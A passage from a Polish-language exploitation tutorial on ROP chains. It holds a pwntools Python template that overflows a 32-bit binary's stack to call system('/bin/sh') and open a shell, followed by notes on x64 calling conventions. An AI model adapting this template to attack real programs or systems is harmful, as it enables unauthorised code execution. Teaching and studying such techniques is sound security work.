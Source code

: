 ### **Łańcuch ROP**

Używając **pwntools**, przygotowujemy stos do wykonania łańcucha ROP w następujący sposób, mając na celu wykonanie `system('/bin/sh')`, zwróć uwagę, jak łańcuch zaczyna się od:

1. Instrukcji `ret` dla celów wyrównania (opcjonalne)
2. Adresu funkcji `system` (zakładając, że ASLR jest wyłączone i znana jest libc, więcej informacji w [**Ret2lib**](ret2lib/))
3. Miejsca na adres powrotu z `system()`
4. Adresu ciągu `"/bin/sh"` (parametr dla funkcji system)
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
## ROP Chain w przykładzie x64

### **x64 (64-bit) konwencje wywołań**

- Używa konwencji wywołań **System V AMD64 ABI** w systemach podobnych do Uniksa, gdzie **pierwsze sześć argumentów całkowitych lub wskaźnikowych jest przekazywanych w rejestrach `RDI`, `RSI`, `RDX`, `RCX`, `R8` i `R9`**. Dodatkowe argumenty są przekazywane na stosie. Wartość zwracana jest umieszczana w `RAX`.
- Konwencja wywołań **Windows x64** używa `RCX`, `RDX`, `R8` i `R9` dla pierwszych czterech argumentów całkowitych lub wskaźnikowych, a dodatkowe argumenty są przekazywane na stosie. Wartość zwracana jest umieszczana w `RAX`.
- **Rejestry**: Rejestry 64-bitowe obejmują `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP` oraz `R8` do `R15`.
